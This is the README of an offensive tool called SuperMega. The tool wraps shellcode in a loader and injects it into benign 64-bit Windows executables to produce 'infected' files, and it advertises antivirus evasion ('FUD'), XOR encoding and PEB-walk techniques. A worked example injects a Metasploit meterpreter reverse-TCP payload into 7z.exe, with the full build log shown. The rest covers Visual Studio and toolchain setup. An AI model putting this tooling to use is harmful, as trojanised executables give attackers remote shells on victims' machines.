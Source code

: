 # SuperMega - Cordyceps Implementation

> Ophiocordyceps camponoti-balzani is a species of fungus that parasitizes 
> insect hosts of the order Hymenoptera, primarily ants. O. 
> camponoti-balzani infects ants, and eventually kills the hosts after 
> they move to an ideal location for the fungus to spread its spores.


## What

SuperMega is a shellcode loader. It will take a shellcode as input, protects it, adds a loader,
and injects the resulting shellcode into an exe. 

FUD.

And: 
* Only works with 64 bit (shellcode and infecteble exe's)

Features: 
* Loader source is C yay
* Execution-Guardrails
  * Environment variables
* configurable implementation
* different EXE injection techniques

Plugins: 
* source style:
  * PEB_WALK
  * IAT_REUSE
* alloc style:
  * RWX
  * REUSE_RWX
* decoder style:
  * PLAIN_1
  * XOR_1
* dataref style:
  * APPEND


## Examples

### Metasploit in 7z

Inject metasploit into 7z.exe. It will use PEB_WALK. 

```
PS C:\repos\supermega> python.exe .\supermega.py --shellcode .\shellcodes\msf-meterpreter-reversetcp.bin --inject .\exes\7z.exe
(supermega.py) Super Mega
(helper.py   ) --[ Remove old files ]
(model.py    ) --( Capabilities: 
(model.py    )   0x0: GetEnvironmentVariableW (b'')
(model.py    )   0x460090: VirtualAlloc (b'')
(supermega.py) --[ SourceStyle: peb_walk
(compiler.py ) --[ C to ASM: build\main.c -> build\main.asm ]
(compiler.py ) ---[ Make ASM from C: build\main.c ]
(compiler.py ) ---[ Fixup  : build\main.asm ]
(compiler.py )     > Replace external reference at line: 8
(compiler.py )     > Replace external reference at line: 395
(compiler.py )     > Replace payload length at line: 389
(compiler.py )     > Add end of code label at line: 807
(compiler.py ) ---[ Cleanup: build\main.asm ]
(assembler.py) --[ Assemble to exe: build\main.asm -> build\main.exe -> build\main.bin ]
(assembler.py) ---[ Assemble ASM to EXE: build\main.asm -> build\main.exe ]
(assembler.py) ---[ EXE to SHC: build\main.exe -> build\main.bin ]
(helper.py   ) --[ Code section: .text
(helper.py   )     > 0x1000 Code Size: 2557  (raw code section size: 2560)
(assembler.py) --[ Merge stager: build\main.bin + .\shellcodes\msf-meterpreter-reversetcp.bin -> build\main.bin ]
(assembler.py) ---[ Size: Stager: 2557 and Payload: 449  Sum: 3006 ]
(injector.py ) --[ Injecting: build\main.bin into: .\exes\7z.exe -> .\exes\7z.infected.exe ]
(supermega.py) --[ Start infected exe ]
```


## Directories

* `shellcodes/`: Input: Shellcodes we want to use as input (payload)
* `source/`: Input: Loader C templates
* `plugins/`: Input: Loader C implementations
* `exes/`: Input: Nonmalicious EXE files we inject into
* `build/`: build: Temporary files during build process
* `logs/`: build: Files generated by building (inspect for debugging)
* `out/`: output. The generated result: infected exe

## Installation

### Paths

Configure `config.yaml` with: 
* Path to Visual Studio 2022 compiler and assembler
* Path to mash_shc and runshc: https://github.com/hasherezade/masm_shc. 

`config.yaml`:
```yaml
path_cl: 'C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\bin\Hostx64\x64\cl.exe'
path_ml64:  'C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\bin\Hostx64\x64\ml64.exe'

path_masmshc:  'C:\Users\hacker\Source\Repos\masm_shc\out\build\x64-Debug\masm_shc\masm_shc.exe'
path_runshc: 'C:\Users\hacker\Source\Repos\masm_shc\out\build\x64-Debug\runshc\runshc.exe'
```

Make sure its the `Hostx64/x64/` one exe. Make sure to compile
msmshc and runshc as 64bit. You can also replace runshc with
your own shellcode loader. 

### Environment Variables

It needs all the Microsoft Visual Studio specific paths as environment
variables. Either start the "visual studio developer console", or if you are sane, 
use the following commandline to get all the damn env right. 
Use this when `Cannot find Windows.h`.

```
cmd.exe /c "`"C:\Program Files (x86)\Microsoft Visual Studio\<year>\<edition>\Common7\Tools\VsDevCmd.bat`" && powershell"
```

Also make sure radare2 is in path:
```
$Env:PATH += ";C:\Tools\radare2-5.8.8-w64\bin"
```


### Alternative

Use
```
"C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvars64.bat"
```

or the VS developer console to find the damn environment variables, and set 
it in your python console. In my case:
```
$env:INCLUDE = "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\include;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\include;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\VS\include;C:\Program Files (x86)\Windows Kits\10\include\10.0.22621.0\ucrt;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\um;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\shared;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\winrt;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\cppwinrt;C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\include\um"
$env:LIB="C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x64;C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\lib\um\x64;C:\Program Files (x86)\Windows Kits\10\lib\10.0.22621.0\ucrt\x64;C:\Program Files (x86)\Windows Kits\10\\lib\10.0.22621.0\\um\x64"
$env:LIBPATH="C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x86\store\references;C:\Program Files (x86)\Windows Kits\10\UnionMetadata\10.0.22621.0;C:\Program Files (x86)\Windows Kits\10\References\10.0.22621.0;C:\Windows\Microsoft.NET\Framework64\v4.0.30319"
```

### VS2022 Components

A list of packages/components which may be required for Visual Studio 2022:
* C++ 2022 Redistributable Update
* C++ Build Insights
* C++ CMake tools for windows
* C++ /CLI support for v143 build tools (lastest)
* MSBuild
* MSVC v133 - VS 2002 C++ x64/x86 build tools (latest)
* C++ ATL for latest v143 build tools (x86 & x64)
* C++ MFC for latest v143 build tools (x86 & x64)
* Windows 11 SDK